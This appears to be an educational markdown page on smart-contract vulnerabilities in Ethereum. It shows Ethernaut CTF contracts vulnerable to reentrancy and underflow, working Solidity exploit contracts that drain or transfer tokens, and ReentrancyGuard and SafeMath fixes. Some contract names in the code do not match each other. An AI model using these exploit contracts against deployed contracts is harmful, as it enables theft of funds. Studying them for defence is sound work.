 # Common vulnerabilities in Ethereum and EVM based chains

Solidity cheatsheet is available in [solidity-cheatsheet](/README.md).

## Table of contents

- [Common vulnerabilities in Ethereum and EVM based chains](#common-vulnerabilities-in-ethereum-and-evm-based-chains)
  * [Table of contents](#table-of-contents)
  * [Motivation](#motivation)
  * [Reentrancy](#reentrancy)
    + [Examples](#reentrancy-example)
    + [How to prevent reentrancy attacks](#how-to-prevent-reentrancy-attacks)
  * [Arithmetic overflows and underflows](#arithmetic-overflows-and-underflows)

### Motivation

TBD

### Reentrancy

Computer scientists say that a procedure is re-entrant if its execution can be interrupted in the middle, initiated over (re-entered), and both runs can complete without any errors in execution. In the context of Ethereum smart contracts, re-entrancy can lead to serious vulnerabilities. 

The most famous example of this was the DAO Hack, where $70million worth of Ether was siphoned off.

### Reentrancy example
(example from [Ethernaut](https://ethernaut.openzeppelin.com))
```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```

The above smart contract can be exploited using a simple reentrancy attack. Example below:
```solidity
pragma solidity ^0.6.0;

contract Exploiter {
    address private owner;
    address payable vault = <address of the exploited contract>;
    Reentrancy exploited = Reentrancy(<address of the exploited contract>);
    
    constructor() public payable{
        owner = msg.sender;
    }
    
    modifier onlyOwner {
        require(msg.sender == owner, "Only owner: operation not allowed");
        _;
    }
    
    function deposit() public onlyOwner {
        exploited.donate{value: 1 ether}(address(this));
    }
    
    function attack() public onlyOwner {
        exploited.withdraw(0.5 ether);
    }
    
    function selfkill() public onlyOwner {
        selfdestruct(payable(owner));
    }
    
    fallback() external payable {
        if ( vault.balance > 0 ){
            exploited.withdraw(0.5 ether);
        }
    }
}
```
### How to prevent Reentrancy attacks:

Use the [Openzeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts)'s ReentrancyGuard to block reentrant calls to your functions.

Example: (using the reentrancy guard for the vulnerable contract from above)

```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/security/ReentrancyGuard.sol';

contract Reentrance is ReentrancyGuard{
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public nonReentrant{
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```

Notice the inheritance `contract Reentrancy is ReentrancyGuard` and function definition `function withdraw(uint _amount) public nonReentrant`.

### Arithmetic overflows and underflows
Solidity’s 256 bits Virtual Machine (EVM) brought back overflow and underflow issues. Developers should be extra careful when using uint data types.
You can think of a uint/int data type as a ring buffer, when the limit is exceded, it will start again from the first element(i.e. zero).
Take a look at the following example:
- we have a `uint _var = 0` that means it can store any integer up to 2^256 - 1. Now let's say we want to do the following operation: 
    - `_var = _var + (2**256 - 1) + 5` will give as a value of 4 (because `0 + 2**256 - 1` will give us MAX value, but adding 5 over the max value will overflow the uint and give us 4)

### Underflow example
The following contract is taken from the [Ethernaut](https://ethernaut.openzeppelin.com) CTF, Token level:
```solidity
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

A simple exploit for this contract could be the following:
```solidity
pragma solidity ^0.6.0;

interface Token{
    function transfer(address _to, uint value) external ;
}

contract TokenHacker{
    address tokenAddress = 0x08EABfcd1a1931F3307908EeE726Aa2F4Fe1E3b0;
    Token token;
    
    constructor () public {
        token = Token(tokenAddress);
    }
    
    function hack() public {
        token.transfer(0xa447DB345C0b81aD25B83CFF30E08f6b9fdF6CA6, 50000);
    }
    
}
```

### Overflow and underflow protection
Use the [Openzeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts)'s SafeMath library to avoid underflows and overflows on your data types.

